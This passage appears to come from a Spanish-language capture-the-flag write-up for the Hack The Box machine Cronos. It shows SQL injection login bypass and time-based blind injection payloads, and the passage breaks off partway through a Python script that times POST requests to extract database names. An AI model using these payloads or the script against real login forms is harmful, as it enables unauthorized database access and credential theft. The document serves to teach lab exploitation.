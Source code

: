 - `'` - No vemos nada
- `' or 1=1-- -` - Logramos ingresar al panel

![](/assets/images/htb-cronos/cronos-web3.png)

- `' or sleep(5)-- -` - Vemos que la página tarda 5 segundos en responder, por lo que podríamos tratar de obtener credenciales de la base de datos.

Para hacerlo más interesante y aprender un poco, vamos a hacer una inyección SQL a ciegas (***SQLi blind***); por lo que debemos pensar una forma obtener información utilizando el comando `sleep(t)`. Para esto, debemos preguntar al servidor si la información que buscamos empieza por un caracter, si es verdadero que tarde `x` tiempo en responder y si es falso, que no tarde nada; mediante comandos de SQL sería `if( substr( database(),x,1) = 'a', sleep(5), 1)` en donde `x` nos indica la posición de los caracteres. Por lo tanto:

- **Nombre de la base de datos** - `if ( substr( database(),x,1 ) = 'a', sleep(5), 1)`
- **Nombre de las tablas** - `if ( substr( table_name,x,1 ) = 'a', sleep(5), 1) where table_schema=<<nombre_base_de_datos>> limit y,1` en donde `y` es un número que nos indica el número de la tabla, es decir `y=1` es la primera tabla, `y=2` es la segunda tabla y así sucesivamente.
- **Nombre de las columnas** - 
- **Información** -

Para facilitarnos el trabajo, vamos a crear un script en python para obtener todo lo anterior, empezando primero con el nombre de la base de datos.

```python
#!/usr/bin/python3
#codgin: utf-8

import time, requests, signal, sys
from pwn import *

def def_handler(sig, frame):
    print("\n[!] Saliendo...")
    sys.exit(1)

signal.signal(signal.SIGINT, def_handler)

# Variables globales
url = "http://admin.cronos.htb/index.php"
s = r'0123456789abcdefghijklmnopqrstuvwxyz'

def makeRequest(sqli):
    data_post = {
        'username' : '%s' % sqli,
        'password' : 'loquesea'
    }
    time_start = time.time()
    r = requests.post(url, data=data_post)
    time_end = time.time()

    if time_end - time_start > 3:
        return 1

def payload():
```